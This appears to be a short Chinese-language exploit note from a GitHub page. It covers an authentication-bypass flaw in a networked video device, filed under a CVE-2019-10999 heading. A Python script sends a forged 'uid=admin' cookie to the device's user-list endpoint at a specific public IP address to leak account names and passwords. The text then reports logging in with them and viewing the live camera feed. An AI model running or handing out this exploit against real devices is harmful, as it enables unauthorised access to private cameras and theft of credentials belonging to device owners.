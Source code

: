 ![](image/b68c6d5c457c9fc1723c3ade97259528.png)

泄露出来账户名和密码   admin1 ce登录

![](image/de622db2fdf28dd6aecabbc7c5b0272e.png)

登录成功一直在转圈，显示不出来可能是网络不太好

## exp

```python
import requests

host = "85.105.249.37"
url = f"http://{host}/device.rsp?opt=user&cmd=list"

headers = {
    "Cookie": "uid=admin"
}

response = requests.get(url, headers=headers)

print("Status code:", response.status_code)
print("Response body:", response.text)
```

## 说明

此漏洞泄露了账户名和密码，利用此可以登录到web端查看实时画面，使用IE浏览器兼容性好可以看到画面

# CVE-2019-10999

